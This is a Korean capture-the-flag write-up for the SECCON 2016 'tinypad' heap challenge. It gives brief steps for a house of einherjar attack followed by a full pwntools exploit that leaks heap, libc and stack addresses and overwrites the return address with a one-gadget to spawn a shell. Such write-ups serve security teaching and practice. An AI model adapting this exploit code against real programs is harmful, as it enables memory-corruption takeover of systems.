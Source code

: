 # 2016-Seccon-tinypad

house of einherjar 문제이다.

## [Exploit 방법]

heap 주소와 libc의 주소를 릭

strlen으로 chunk안의 문자의 개수를 판단하고 입력을 함

heap에 쓰레기 값을  다른 heap의 사이즈 앞까지 넣음(poison-null-byte)

house of einherjar을 사용

​	__prev_size(할당된 힙의 주소-0x10-할당할 위치)로 변경 그리고 prev_inuse를 0으로 만듬__

tinypad주소에 할당

environ 주소로 stack leak

main의 ret부분을 구해서 oneshot을 넣음



<div class="colorscripter-code" style="color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important; position:relative !important;overflow:auto"><table class="colorscripter-code-table" style="margin:0;padding:0;border:none;background-color:#fafafa;border-radius:4px;" cellspacing="0" cellpadding="0"><tr><td style="padding:6px;border-right:2px solid #e5e5e5"><div style="margin:0;padding:0;word-break:normal;text-align:right;color:#666;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="line-height:130%">1</div><div style="line-height:130%">2</div><div style="line-height:130%">3</div><div style="line-height:130%">4</div><div style="line-height:130%">5</div><div style="line-height:130%">6</div><div style="line-height:130%">7</div><div style="line-height:130%">8</div><div style="line-height:130%">9</div><div style="line-height:130%">10</div><div style="line-height:130%">11</div><div style="line-height:130%">12</div><div style="line-height:130%">13</div><div style="line-height:130%">14</div><div style="line-height:130%">15</div><div style="line-height:130%">16</div><div style="line-height:130%">17</div><div style="line-height:130%">18</div><div style="line-height:130%">19</div><div style="line-height:130%">20</div><div style="line-height:130%">21</div><div style="line-height:130%">22</div><div style="line-height:130%">23</div><div style="line-height:130%">24</div><div style="line-height:130%">25</div><div style="line-height:130%">26</div><div style="line-height:130%">27</div><div style="line-height:130%">28</div><div style="line-height:130%">29</div><div style="line-height:130%">30</div><div style="line-height:130%">31</div><div style="line-height:130%">32</div><div style="line-height:130%">33</div><div style="line-height:130%">34</div><div style="line-height:130%">35</div><div style="line-height:130%">36</div><div style="line-height:130%">37</div><div style="line-height:130%">38</div><div style="line-height:130%">39</div><div style="line-height:130%">40</div><div style="line-height:130%">41</div><div style="line-height:130%">42</div><div style="line-height:130%">43</div><div style="line-height:130%">44</div><div style="line-height:130%">45</div><div style="line-height:130%">46</div><div style="line-height:130%">47</div><div style="line-height:130%">48</div><div style="line-height:130%">49</div><div style="line-height:130%">50</div><div style="line-height:130%">51</div><div style="line-height:130%">52</div><div style="line-height:130%">53</div><div style="line-height:130%">54</div><div style="line-height:130%">55</div><div style="line-height:130%">56</div><div style="line-height:130%">57</div><div style="line-height:130%">58</div><div style="line-height:130%">59</div><div style="line-height:130%">60</div><div style="line-height:130%">61</div><div style="line-height:130%">62</div><div style="line-height:130%">63</div><div style="line-height:130%">64</div><div style="line-height:130%">65</div><div style="line-height:130%">66</div><div style="line-height:130%">67</div><div style="line-height:130%">68</div><div style="line-height:130%">69</div><div style="line-height:130%">70</div><div style="line-height:130%">71</div><div style="line-height:130%">72</div><div style="line-height:130%">73</div><div style="line-height:130%">74</div><div style="line-height:130%">75</div><div style="line-height:130%">76</div><div style="line-height:130%">77</div><div style="line-height:130%">78</div><div style="line-height:130%">79</div><div style="line-height:130%">80</div><div style="line-height:130%">81</div><div style="line-height:130%">82</div><div style="line-height:130%">83</div><div style="line-height:130%">84</div><div style="line-height:130%">85</div><div style="line-height:130%">86</div><div style="line-height:130%">87</div><div style="line-height:130%">88</div><div style="line-height:130%">89</div><div style="line-height:130%">90</div><div style="line-height:130%">91</div><div style="line-height:130%">92</div><div style="line-height:130%">93</div><div style="line-height:130%">94</div><div style="line-height:130%">95</div><div style="line-height:130%">96</div><div style="line-height:130%">97</div><div style="line-height:130%">98</div><div style="line-height:130%">99</div><div style="line-height:130%">100</div><div style="line-height:130%">101</div><div style="line-height:130%">102</div><div style="line-height:130%">103</div></div></td><td style="padding:6px 0;text-align:left"><div style="margin:0;padding:0;color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#a71d5d">from</span>&nbsp;pwn&nbsp;<span style="color:#a71d5d">import</span>&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">*</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#a71d5d">def</span>&nbsp;add(size,content):</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sla(<span style="color:#63a35c">'&gt;&gt;&gt;'</span>,<span style="color:#63a35c">'a'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sla(<span style="color:#63a35c">'&gt;&gt;&gt;'</span>,<span style="color:#066de2">str</span>(size))</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sla(<span style="color:#63a35c">'&gt;&gt;&gt;'</span>,content)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#a71d5d">def</span>&nbsp;delete(idx):</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sla(<span style="color:#63a35c">'&gt;&gt;&gt;'</span>,<span style="color:#63a35c">'d'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sla(<span style="color:#63a35c">'&gt;&gt;&gt;'</span>,<span style="color:#066de2">str</span>(idx))</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#a71d5d">def</span>&nbsp;edit(idx,content):</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sla(<span style="color:#63a35c">'&gt;&gt;&gt;'</span>,<span style="color:#63a35c">'e'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sla(<span style="color:#63a35c">'&gt;&gt;&gt;'</span>,<span style="color:#066de2">str</span>(idx))</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sla(<span style="color:#63a35c">'&gt;&gt;&gt;'</span>,content)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sla(<span style="color:#63a35c">'&gt;&gt;&gt;'</span>,<span style="color:#63a35c">'Y'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">r<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>process(<span style="color:#63a35c">'./tinypad'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">e<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>ELF(<span style="color:#63a35c">'./tinypad'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">libc<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>e.libc</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">sla&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>&nbsp;lambda&nbsp;x,y&nbsp;:&nbsp;r.sendlineafter(x,y)</div><div style="padding:0 6px; white-space:pre; line-height:130%">ru&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>&nbsp;lambda&nbsp;x&nbsp;:&nbsp;r.recvuntil(x)</div><div style="padding:0 6px; white-space:pre; line-height:130%">sa&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>&nbsp;lambda&nbsp;x,y&nbsp;:&nbsp;r.sendafter(x,y)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">add(<span style="color:#0099cc">0x70</span>,<span style="color:#63a35c">'A'</span><span style="color:#0086b3"></span><span style="color:#a71d5d">*</span><span style="color:#0099cc">8</span>)<span style="color:#999999">#1</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">add(<span style="color:#0099cc">0x70</span>,<span style="color:#63a35c">'B'</span><span style="color:#0086b3"></span><span style="color:#a71d5d">*</span><span style="color:#0099cc">8</span>)<span style="color:#999999">#2</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">add(<span style="color:#0099cc">0x100</span>,<span style="color:#63a35c">'B'</span><span style="color:#0086b3"></span><span style="color:#a71d5d">*</span><span style="color:#0099cc">8</span>)<span style="color:#999999">#3</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">delete(<span style="color:#0099cc">2</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">delete(<span style="color:#0099cc">1</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">ru(<span style="color:#63a35c">'CONTENT:&nbsp;'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">heap_leak<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>u64(ru(<span style="color:#63a35c">'\n'</span>).replace(<span style="color:#63a35c">'\n'</span>,<span style="color:#63a35c">''</span>).ljust(<span style="color:#0099cc">8</span>,<span style="color:#63a35c">'\x00'</span>))<span style="color:#0086b3"></span><span style="color:#a71d5d">-</span><span style="color:#0099cc">0x80</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">log.info(<span style="color:#63a35c">'Heap&nbsp;:&nbsp;'</span><span style="color:#0086b3"></span><span style="color:#a71d5d">+</span>hex(heap_leak))</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">delete(<span style="color:#0099cc">3</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">ru(<span style="color:#63a35c">'#&nbsp;&nbsp;&nbsp;INDEX:&nbsp;1'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">ru(<span style="color:#63a35c">'CONTENT:&nbsp;'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">main_arena<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>u64(ru(<span style="color:#63a35c">'\x7f'</span>).ljust(<span style="color:#0099cc">8</span>,<span style="color:#63a35c">'\x00'</span>))</div><div style="padding:0 6px; white-space:pre; line-height:130%">log.info(<span style="color:#63a35c">'Main_arena&nbsp;:&nbsp;'</span><span style="color:#0086b3"></span><span style="color:#a71d5d">+</span>hex(main_arena))</div><div style="padding:0 6px; white-space:pre; line-height:130%">libc_leak<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>main_arena<span style="color:#0086b3"></span><span style="color:#a71d5d">-</span><span style="color:#0099cc">0x3c4b78</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">log.info(<span style="color:#63a35c">'Libc&nbsp;:&nbsp;'</span><span style="color:#0086b3"></span><span style="color:#a71d5d">+</span>hex(libc_leak))</div><div style="padding:0 6px; white-space:pre; line-height:130%">environ<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>libc_leak<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span>libc.symbols[<span style="color:#63a35c">'environ'</span>]</div><div style="padding:0 6px; white-space:pre; line-height:130%">log.info(<span style="color:#63a35c">'Environ&nbsp;:&nbsp;'</span><span style="color:#0086b3"></span><span style="color:#a71d5d">+</span>hex(environ))</div><div style="padding:0 6px; white-space:pre; line-height:130%">oneshot<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>libc_leak<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#0099cc">0xf1147</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">log.info(<span style="color:#63a35c">'Oneshot&nbsp;:&nbsp;'</span><span style="color:#0086b3"></span><span style="color:#a71d5d">+</span>hex(oneshot))</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">add(<span style="color:#0099cc">0x18</span>,<span style="color:#63a35c">'A'</span><span style="color:#0086b3"></span><span style="color:#a71d5d">*</span><span style="color:#0099cc">0x18</span>)<span style="color:#999999">#1</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">add(<span style="color:#0099cc">0x100</span>,<span style="color:#63a35c">'B'</span><span style="color:#0086b3"></span><span style="color:#a71d5d">*</span><span style="color:#0099cc">0xf8</span><span style="color:#a71d5d">+</span><span style="color:#63a35c">'\x11'</span>)<span style="color:#999999">#2</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">add(<span style="color:#0099cc">0x100</span>,<span style="color:#63a35c">'C'</span><span style="color:#0086b3"></span><span style="color:#a71d5d">*</span><span style="color:#0099cc">0xf8</span>)<span style="color:#999999">#3</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">add(<span style="color:#0099cc">0x100</span>,<span style="color:#63a35c">'D'</span><span style="color:#0086b3"></span><span style="color:#a71d5d">*</span><span style="color:#0099cc">0xf8</span>)<span style="color:#999999">#4</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">''</span><span style="color:#63a35c">'</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">heap+0x10:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x41414141&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x41414141&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x41414141&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x41414141</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">heap+0x20:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x41414141&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x41414141&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x00000111&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x00000000</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">'</span><span style="color:#63a35c">''</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">tinypad<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span><span style="color:#0099cc">0x602040</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">fake_prev_size<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>heap_leak<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#0099cc">0x30</span><span style="color:#a71d5d">-</span><span style="color:#0099cc">0x10</span><span style="color:#a71d5d">-</span>(tinypad<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#0099cc">0x20</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">log.info(<span style="color:#63a35c">'Fake_prev_size&nbsp;:&nbsp;'</span><span style="color:#0086b3"></span><span style="color:#a71d5d">+</span>hex(fake_prev_size))</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">fake_chunk<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span><span style="color:#63a35c">'D'</span><span style="color:#0086b3"></span><span style="color:#a71d5d">*</span><span style="color:#0099cc">0x20</span><span style="color:#a71d5d">+</span>p64(<span style="color:#0099cc">0</span>)<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span>p64(<span style="color:#0099cc">0x101</span>)<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span>p64(tinypad<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#0099cc">0x20</span>)<span style="color:#0086b3"></span><span style="color:#a71d5d">*</span><span style="color:#0099cc">2</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">edit(<span style="color:#0099cc">1</span>,<span style="color:#63a35c">'A'</span><span style="color:#0086b3"></span><span style="color:#a71d5d">*</span><span style="color:#0099cc">0x18</span><span style="color:#a71d5d">+</span><span style="color:#63a35c">'f\x01'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">edit(<span style="color:#0099cc">1</span>,<span style="color:#63a35c">'A'</span><span style="color:#0086b3"></span><span style="color:#a71d5d">*</span><span style="color:#0099cc">0x18</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#a71d5d">for</span>&nbsp;i&nbsp;<span style="color:#a71d5d">in</span>&nbsp;<span style="color:#066de2">range</span>(<span style="color:#0099cc">3</span>,<span style="color:#0086b3"></span><span style="color:#a71d5d">-</span><span style="color:#0099cc">1</span>,<span style="color:#0086b3"></span><span style="color:#a71d5d">-</span><span style="color:#0099cc">1</span>):</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;edit(<span style="color:#0099cc">1</span>,<span style="color:#63a35c">'A'</span><span style="color:#0086b3"></span><span style="color:#a71d5d">*</span><span style="color:#0099cc">0x14</span><span style="color:#a71d5d">+</span><span style="color:#63a35c">'f'</span><span style="color:#0086b3"></span><span style="color:#a71d5d">*</span>i)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">edit(<span style="color:#0099cc">1</span>,<span style="color:#63a35c">'A'</span><span style="color:#0086b3"></span><span style="color:#a71d5d">*</span><span style="color:#0099cc">0x10</span><span style="color:#a71d5d">+</span>p64(fake_prev_size))</div><div style="padding:0 6px; white-space:pre; line-height:130%">edit(<span style="color:#0099cc">3</span>,fake_chunk)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">delete(<span style="color:#0099cc">2</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">''</span><span style="color:#63a35c">'</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">size_error</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">0x602060&nbsp;&lt;tinypad+32&gt;:&nbsp;&nbsp;0x00000000&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x00000000&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x0072d0c1&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x00000000</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">0x602070&nbsp;&lt;tinypad+48&gt;:&nbsp;&nbsp;0x4f540b78&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x00007f24&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x4f540b78&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x00007f24</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">'</span><span style="color:#63a35c">''</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">change_size<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span><span style="color:#63a35c">'A'</span><span style="color:#0086b3"></span><span style="color:#a71d5d">*</span><span style="color:#0099cc">0x20</span><span style="color:#a71d5d">+</span>p64(<span style="color:#0099cc">0</span>)<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span>p64(<span style="color:#0099cc">0x101</span>)<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span>p64(main_arena)<span style="color:#0086b3"></span><span style="color:#a71d5d">*</span><span style="color:#0099cc">2</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">edit(<span style="color:#0099cc">4</span>,change_size)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">add(<span style="color:#0099cc">0xf8</span>,<span style="color:#63a35c">'A'</span><span style="color:#0086b3"></span><span style="color:#a71d5d">*</span><span style="color:#0099cc">0xd8</span><span style="color:#a71d5d">+</span>p64(<span style="color:#0099cc">0x602150</span>)<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#63a35c">'A'</span><span style="color:#0086b3"></span><span style="color:#a71d5d">*</span><span style="color:#0099cc">8</span><span style="color:#a71d5d">+</span>p64(environ))</div><div style="padding:0 6px; white-space:pre; line-height:130%">ru(<span style="color:#63a35c">'#&nbsp;&nbsp;&nbsp;INDEX:&nbsp;2'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">ru(<span style="color:#63a35c">'CONTENT:&nbsp;'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">stack<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>u64(ru(<span style="color:#63a35c">'\x7f'</span>).ljust(<span style="color:#0099cc">8</span>,<span style="color:#63a35c">'\x00'</span>))</div><div style="padding:0 6px; white-space:pre; line-height:130%">ret<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>stack<span style="color:#0086b3"></span><span style="color:#a71d5d">-</span><span style="color:#0099cc">240</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">log.info(<span style="color:#63a35c">'Stack&nbsp;:&nbsp;'</span><span style="color:#0086b3"></span><span style="color:#a71d5d">+</span>hex(stack))</div><div style="padding:0 6px; white-space:pre; line-height:130%">log.info(<span style="color:#63a35c">'Ret&nbsp;:&nbsp;'</span><span style="color:#0086b3"></span><span style="color:#a71d5d">+</span>hex(ret))</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">edit(<span style="color:#0099cc">1</span>,<span style="color:#63a35c">'A'</span><span style="color:#0086b3"></span><span style="color:#a71d5d">*</span><span style="color:#0099cc">8</span><span style="color:#a71d5d">+</span>p64(ret))</div><div style="padding:0 6px; white-space:pre; line-height:130%">edit(<span style="color:#0099cc">2</span>,p64(oneshot))</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">sla(<span style="color:#63a35c">'&gt;&gt;&gt;'</span>,<span style="color:#63a35c">'q'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">r.interactive()</div></div><div style="text-align:right;margin-top:-13px;margin-right:5px;font-size:9px;font-style:italic"><a href="http://colorscripter.com/info#e" target="_blank" style="color:#e5e5e5text-decoration:none">Colored by Color Scripter</a></div></td><td style="vertical-align:bottom;padding:0 2px 4px 0"><a href="http://colorscripter.com/info#e" target="_blank" style="text-decoration:none;color:white"><span style="font-size:9px;word-break:normal;background-color:#e5e5e5;color:white;border-radius:10px;padding:1px">cs</span></a></td></tr></table></div>

